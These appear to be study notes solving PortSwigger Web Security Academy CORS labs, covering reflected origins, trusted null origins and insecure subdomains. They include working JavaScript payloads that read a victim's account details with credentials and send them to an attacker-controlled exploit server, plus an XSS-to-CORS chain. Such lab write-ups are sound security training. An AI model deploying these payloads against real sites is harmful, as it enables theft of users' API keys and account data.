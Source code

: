 ### Lab: CORS vulnerability with basic origin reflection
Some server may reflect origin in the response. i.e. if the req contains:
```
Origin: http://any.com
```
The response will contain the same origin as allowed if the server is configured to reflect origin:
```
Access-Control-Allow-Origin: http://any.com
```
If you can get user to click on the link that leads to your own website, and your own website contains the following script:
```
<script>
// both ways work

// var req = new XMLHttpRequest();
// req.onload = reqListener;
// req.open('get','https://0a9e001a04a2ac888bbfc28d00bf0063.web-security-academy.net/accountDetails',true);
// req.withCredentials = true;
// req.send();
// 
// function reqListener() {
//     console.log("in resp")
// //	location='//malicious-website.com/log?key='+this.responseText;
//     console.log(this.responseText)
// };

async function req() {
    const res = await fetch("https://vulnerable-website/accountDetails", {
        credentials: 'include',
    })
    const json = await res.text()

    window.location = 'https://your-server/exploit?key='+json
}
req()
</script>
```
Then you can make a request to that another website on behalf of the user

### Errors parsing Origin headers
Mistakes often arise when implementing CORS origin whitelists. Some organizations decide to allow access from all their subdomains (including future subdomains not yet in existence). And some applications allow access from various other organizations' domains including their subdomains. These rules are often implemented by matching URL prefixes or suffixes, or using regular expressions. Any mistakes in the implementation can lead to access being granted to unintended external domains.

For example, suppose an application grants access to all domains ending in:
```
normal-website.com
```
An attacker might be able to gain access by registering the domain:
```
hackersnormal-website.com
```
Alternatively, suppose an application grants access to all domains beginning with
```
normal-website.com
```
An attacker might be able to gain access using the domain:
```
normal-website.com.evil-user.net
```

### Whitelisted null origin value
### Lab: CORS vulnerability with trusted null origin
The specification for the Origin header supports the value null. Browsers might send the value null in the Origin header in various unusual situations:
- Cross-origin redirects.
- Requests from serialized data.
- Request using the file: protocol.
- Sandboxed cross-origin requests.

Some applications might whitelist the `null` origin to support local development of the application. 

In this situation, an attacker can use various tricks to generate a cross-origin request containing the value null in the Origin header. This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using a sandboxed iframe cross-origin request of the form:
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0ab8005504188db084705016001f0098.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
       location='https://exploit-0a99002204538de184ea4f6d0136005b.exploit-server.net/exploit?key='+encodeURIComponent(this.responseText);
</script>"></iframe>
```

### Lab: CORS vulnerability with trusted insecure protocols
This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol
To solve the lab retrieve the administrator's API key (`GET /accountDetails` endpoint replies back the API key)

So we need a way of stealing admin's API key.
- The response to /accountDetails contains the Access-Control-Allow-Credentials header suggesting that it may support CORS.
- Send the request to Burp Repeater, and resubmit it with the added header Origin: http://subdomain.0a5a00e503089526801a213200ac0073.web-security-academy.net 
(Don't forget `http` or `https`. If you specify: `subdomain.0a5a00e503089526801a213200ac0073.web-security-academy.net` you're not gonna get `Access-Control-Allow-Origin` header in response)
In the response we get:
```bash
Access-Control-Allow-Origin: http://subdomain.0a1e0074045c8af080abd07700fb004c.web-security-academy.net
Access-Control-Allow-Credentials: true
```
- Since the origin is reflected in the Access-Control-Allow-Origin header, it confirms that the CORS configuration allows access from arbitrary subdomains, both HTTPS and HTTP.

After looking through the website's html, a subdomain was found (in the check stock req):
```bash
http://stock.labid.web-security-academy.net/?productId=1&storeId=1
```
After playing around with the endpoint we see that the `productID` is vulnerable to XSS.
e.g. if we send:
```bash
GET /?productId=4<script>alert(33)</script>&storeId=1 HTTP/2
Host: stock.0a5a00e503089526801a213200ac0073.web-security-academy.net
```
Here's the response that we get back:
```bash
HTTP/2 400 Bad Request
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 61

<h4>ERROR</h4>Invalid product ID: 4<script>alert(33)</script>
```
In the browser the response from above creates a `<script>` tab and executes js code.

So we try to make the victim make a request to `/accountDetails`, but we do it via subdomain, because we don't want CORS to stand on our way:
```bash
<script>
    document.location="http://stock.0ae2001b04b2e0dc827365e300bd00b6.web-security-academy.net/?productId=4<script>const req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0ae2001b04b2e0dc827365e300bd00b6.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a1000bc0460e08782aa643a01940099.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

